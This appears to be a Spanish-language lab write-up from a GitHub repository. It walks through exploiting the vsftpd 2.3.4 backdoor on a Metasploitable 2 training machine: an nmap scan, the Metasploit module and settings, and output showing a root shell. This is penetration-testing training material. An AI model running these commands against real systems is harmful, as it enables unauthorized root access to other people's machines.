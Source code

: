 # Explotación de vsftpd 2.3.4 Backdoor (Metasploitable 2)

## 🖥️ Información del objetivo

- **IP del objetivo:** `192.168.1.149`
- **Sistema vulnerable:** Metasploitable 2
- **Puerto vulnerable:** `21/tcp`
- **Servicio:** FTP
- **Versión:** vsftpd 2.3.4

## 🔍 Escaneo con Nmap

```bash
nmap -sV -sC -Pn -oN 192.168.1.149_scan.txt 192.168.1.149

Resultado relevante:

21/tcp open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

⚙️ Explotación con Metasploit
1. Abrimos Metasploit
msfconsole

2. Cargamos el exploit
use exploit/unix/ftp/vsftpd_234_backdoor

3. Configuramos el objetivo
set RHOST 192.168.1.149
run

4. Resultado:
[*] 192.168.1.149:21 - Banner: 220 (vsFTPd 2.3.4)
[+] 192.168.1.149:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.149:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened

¡Se obtiene acceso como root! 🎉

✅ Conclusión
El servicio FTP vsftpd 2.3.4 contiene una puerta trasera que permite obtener acceso remoto como root sin autenticación.

###### 📷 Capturas.######

📁 Las capturas de pantalla se encuentran en la carpeta [`evidencias/`](./evidencias/) de este mismo directorio.
